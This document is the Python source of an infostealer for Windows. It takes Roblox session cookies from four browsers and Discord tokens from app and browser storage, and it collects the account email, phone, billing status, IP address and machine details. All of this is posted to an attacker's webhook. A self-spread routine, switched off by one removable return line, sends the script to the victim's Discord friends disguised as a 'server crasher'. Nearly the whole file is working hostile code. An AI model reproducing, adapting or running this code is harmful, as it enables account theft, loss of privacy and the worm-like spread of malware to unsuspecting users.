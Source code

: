 
import os
if os.name != "nt":
    exit()
from re import findall
from json import loads, dumps
from base64 import b64decode
from subprocess import Popen, PIPE
from urllib.request import Request, urlopen
from datetime import datetime
from threading import Thread
from time import sleep
from sys import argv
import browser_cookie3, requests, threading
import base64
import time

LOCAL = os.getenv("LOCALAPPDATA")
ROAMING = os.getenv("APPDATA")

key = "ENCODED BASE32 HOOK HEREEEE"

webhook = base64.b32decode(key)

def edge_logger():
    try:
        cookies = browser_cookie3.edge(domain_name='roblox.com')
        cookies = str(cookies)
        cookie = cookies.split('.ROBLOSECURITY=')[1].split(' for .roblox.com/>')[0].strip()
        requests.post(webhook, json={'username':'LOGGER', 'content':f' @everyone lmao we got another one ```{cookie}```'})
    except:
        pass

def chrome_logger():
    try:
        cookies = browser_cookie3.chrome(domain_name='roblox.com')
        cookies = str(cookies)
        cookie = cookies.split('.ROBLOSECURITY=')[1].split(' for .roblox.com/>')[0].strip()
        requests.post(webhook, json={'username':'LOGGER', 'content':f'  @everyone lmao we got another one ```{cookie}```'})
    except:
        pass

def firefox_logger():
    try:
        cookies = browser_cookie3.firefox(domain_name='roblox.com')
        cookies = str(cookies)
        cookie = cookies.split('.ROBLOSECURITY=')[1].split(' for .roblox.com/>')[0].strip()
        requests.post(webhook, json={'username':'LOGGER', 'content':f' @everyone lmao we got another one ```{cookie}```'})
    except:
        pass

def opera_logger():
    try:
        cookies = browser_cookie3.opera(domain_name='roblox.com')
        cookies = str(cookies)
        cookie = cookies.split('.ROBLOSECURITY=')[1].split(' for .roblox.com/>')[0].strip()
        requests.post(webhook, json={'username':'LOGGER', 'content':f' @everyone lmao we got another one ```{cookie}```'})
    except:
        pass

browsers = [edge_logger, chrome_logger, firefox_logger, opera_logger]

for x in browsers:
    threading.Thread(target=x,).start()
PATHS = {
    "Discord"           : ROAMING + "\\Discord",
    "Discord Canary"    : ROAMING + "\\discordcanary",
    "Discord PTB"       : ROAMING + "\\discordptb",
    "Google Chrome"     : LOCAL + "\\Google\\Chrome\\User Data\\Default",
    "Opera"             : ROAMING + "\\Opera Software\\Opera Stable",
    "Brave"             : LOCAL + "\\BraveSoftware\\Brave-Browser\\User Data\\Default",
    "Yandex"            : LOCAL + "\\Yandex\\YandexBrowser\\User Data\\Default"
}
def getheaders(token=None, content_type="application/json"):
    headers = {
        "Content-Type": content_type,
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
    }
    if token:
        headers.update({"Authorization": token})
    return headers
def getuserdata(token):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me", headers=getheaders(token))).read().decode())
    except:
        pass
def gettokens(path):
    path += "\\Local Storage\\leveldb"
    tokens = []
    for file_name in os.listdir(path):
        if not file_name.endswith(".log") and not file_name.endswith(".ldb"):
            continue
        for line in [x.strip() for x in open(f"{path}\\{file_name}", errors="ignore").readlines() if x.strip()]:
            for regex in (r"[\w-]{24}\.[\w-]{6}\.[\w-]{27}", r"mfa\.[\w-]{84}"):
                for token in findall(regex, line):
                    tokens.append(token)
    return tokens
def getdeveloper():
    dev = "wodx"
    try:
        dev = urlopen(Request("https://pastebin.com/raw/ssFxiejv")).read().decode()
    except:
        pass
    return dev
def getip():
    ip = "None"
    try:
        ip = urlopen(Request("https://api.ipify.org")).read().decode().strip()
    except:
        pass
    return ip
def getavatar(uid, aid):
    url = f"https://cdn.discordapp.com/avatars/{uid}/{aid}.gif"
    try:
        urlopen(Request(url))
    except:
        url = url[:-4]
    return url
def gethwid():
    p = Popen("wmic csproduct get uuid", shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
    return (p.stdout.read() + p.stderr.read()).decode().split("\n")[1]
def getfriends(token):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/relationships", headers=getheaders(token))).read().decode())
    except:
        pass
def getchat(token, uid):
    try:
        return loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/channels", headers=getheaders(token), data=dumps({"recipient_id": uid}).encode())).read().decode())["id"]
    except:
        pass
def has_payment_methods(token):
    try:
        return bool(len(loads(urlopen(Request("https://discordapp.com/api/v6/users/@me/billing/payment-sources", headers=getheaders(token))).read().decode())) > 0)
    except:
        pass
def send_message(token, chat_id, form_data):
    try:
        urlopen(Request(f"https://discordapp.com/api/v6/channels/{chat_id}/messages", headers=getheaders(token, "multipart/form-data; boundary=---------------------------325414537030329320151394843687"), data=form_data.encode())).read().decode()
    except:
        pass
def spread(token, form_data, delay):
    return # Remove to re-enabled
    for friend in getfriends(token):
        try:
            chat_id = getchat(token, friend["id"])
            send_message(token, chat_id, form_data)
        except Exception as e:
            pass
        sleep(delay)
def main():
    cache_path = ROAMING + "\\.cache~$"
    prevent_spam = True
    self_spread = True
    embeds = []
    working = []
    checked = []
    already_cached_tokens = []
    working_ids = []
    ip = getip()
    pc_username = os.getenv("UserName")
    pc_name = os.getenv("COMPUTERNAME")
    user_path_name = os.getenv("userprofile").split("\\")[2]
    developer = getdeveloper()
    for platform, path in PATHS.items():
        if not os.path.exists(path):
            continue
        for token in gettokens(path):
            if token in checked:
                continue
            checked.append(token)
            uid = None
            if not token.startswith("mfa."):
                try:
                    uid = b64decode(token.split(".")[0].encode()).decode()
                except:
                    pass
                if not uid or uid in working_ids:
                    continue
            user_data = getuserdata(token)
            if not user_data:
                continue
            working_ids.append(uid)
            working.append(token)
            username = user_data["username"] + "#" + str(user_data["discriminator"])
            user_id = user_data["id"]
            avatar_id = user_data["avatar"]
            avatar_url = getavatar(user_id, avatar_id)
            email = user_data.get("email")
            phone = user_data.get("phone")
            nitro = bool(user_data.get("premium_type"))
            billing = bool(has_payment_methods(token))
            embed = {
                "color": 0x7289da,
                "fields": [
                    {
                        "name": "**Account Info**",
                        "value": f'Email: {email}\nPhone: {phone}\nNitro: {nitro}\nBilling Info: {billing}',
                        "inline": True
                    },
                    {
                        "name": "**PC Info**",
                        "value": f'IP: {ip}\nUsername: {pc_username}\nPC Name: {pc_name}\nToken Location: {platform}',
                        "inline": True
                    },
                    {
                        "name": "**Token**",
                        "value": token,
                        "inline": False
                    }
                ],
                "author": {
                    "name": f"{username} ({user_id})",
                    "icon_url": avatar_url
                },
                "footer": {
                
                }
            }
            embeds.append(embed)
    with open(cache_path, "a") as file:
        for token in checked:
            if not token in already_cached_tokens:
                file.write(token + "\n")
    if len(working) == 0:
        working.append('123')
    webhook = {
        "content": "",
        "embeds": embeds,
        "username": "Discord Token Logger",
        "avatar_url": "https://discordapp.com/assets/5ccabf62108d5a8074ddd95af2211727.png"
    }
    try:
        urlopen(Request("PASTE WEBHOOOOK", data=dumps(webhook).encode(), headers=getheaders()))
    except:
        pass
    if self_spread:
        for token in working:
            with open(argv[0], encoding="utf-8") as file:
                content = file.read()
            payload = f'-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="file"; filename="{__file__}"\nContent-Type: text/plain\n\n{content}\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="content"\n\nserver crasher. python download: https://www.python.org/downloads\n-----------------------------325414537030329320151394843687\nContent-Disposition: form-data; name="tts"\n\nfalse\n-----------------------------325414537030329320151394843687--'
            Thread(target=spread, args=(token, payload, 7500 / 1000)).start()
try:
    main()
except Exception as e:
    print(e)
    pass

